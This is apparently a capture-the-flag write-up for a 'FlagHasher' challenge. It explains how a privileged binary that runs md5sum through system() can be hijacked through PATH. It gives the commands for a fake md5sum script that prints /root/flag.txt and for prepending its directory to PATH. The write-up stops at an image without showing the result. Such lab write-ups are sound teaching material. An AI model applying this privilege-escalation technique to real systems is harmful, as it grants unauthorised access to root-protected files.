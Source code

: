 # Hash-only 1

**Challenge Name:** FlagHasher

**Category:** Binary Exploitation / Privilege Escalation

**Description:** We are given a binary `flaghasher` that has enough privileges to read `/root/flag.txt`. However, instead of printing the flag, it computes and outputs the **MD5 hash** of the file. The goal is to retrieve the actual flag instead of just its hash.

---

### Running the Binary

Executing the binary gives the following output:

```
$ ./flaghasher
Computing the MD5 hash of /root/flag.txt....
4d4f660d53535446f15c1a3a7b535e50  /root/flag.txt
```

This confirms that the binary:

- Has read access to `/root/flag.txt`
- Uses `md5sum` to compute the hash
- Uses `system()` to execute shell commands

We used `strings` to check for the file functions:

```
$ strings flaghasher
...
/bin/bash -c 'md5sum /root/flag.txt'
...
system
...
```

This confirms that `flaghasher` is executing `md5sum /root/flag.txt` via `system()`, meaning it might be vulnerable to **PATH hijacking**.

---

## 

Since `system()` executes commands without specifying absolute paths, we can create a **fake `md5sum`** script and manipulate `PATH` to trick the binary into running our script instead.

### **1. Create a Fake `md5sum` Script**

```
echo -e '#!/bin/bash\ncat /root/flag.txt' > md5sum
chmod +x md5sum
```

This script will simply **print the contents** of `/root/flag.txt` instead of computing the MD5 hash.

### **2. Create a Fake Binary Directory**

```
mkdir /tmp/fakebin
mv md5sum /tmp/fakebin/
```

Now, we have placed our fake `md5sum` inside a directory that we control.

### **3. Modify the `PATH` Variable**

```
export PATH="/tmp/fakebin:$PATH"
```

This ensures that when `flaghasher` runs `md5sum`, it will execute **our fake script** instead of the real one.

### **4. Run `flaghasher` Again**

```
./flaghasher
```

![image](https://github.com/user-attachments/assets/b0fa8102-a512-4570-8c0b-197436707092)
